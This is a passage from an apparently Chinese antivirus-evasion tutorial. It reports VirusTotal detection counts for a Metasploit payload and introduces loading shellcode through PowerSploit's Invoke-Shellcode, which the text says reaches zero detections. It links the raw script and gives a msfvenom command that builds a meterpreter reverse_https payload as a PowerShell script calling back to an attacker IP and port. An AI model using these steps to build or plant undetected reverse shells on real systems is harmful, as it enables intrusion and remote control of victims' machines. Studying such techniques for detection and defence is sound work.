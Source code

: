 msf中可上线

![33f7212b4e84d1c8e4fe4b9f19d8daab](images/2020.04-bypass-06/5.png)

virustotal.com中18/56个报毒，这还只是静态检测的结果。

![f46d17582dec2f540a2098f80e293b2e](images/2020.04-bypass-06/6.png)

## 3.2 法2：Invoke-Shellcode加载(VT免杀率0/58)

Invoke-Shellcode是PowerSploit里的一个脚本工具：`https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1`，通过它可以加载自定义的shellcode，而且还支持在powershell中反弹msf，支持http和https协议。

PowerSploit里面还有`Invoke-DllInjection.ps1`可以加载dll文件，`Invoke-ReflectivePEInjection.ps1`可以加载exe文件，我们这里只介绍`Invoke-Shellcode`。想了解更多相关内容的可以移步这里：`https://cn-sec.com/archives/64079.html`

先用msfvenom生成脚本木马
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.211.55.2 LPORT=3333 -f powershell -o shell.ps1
```
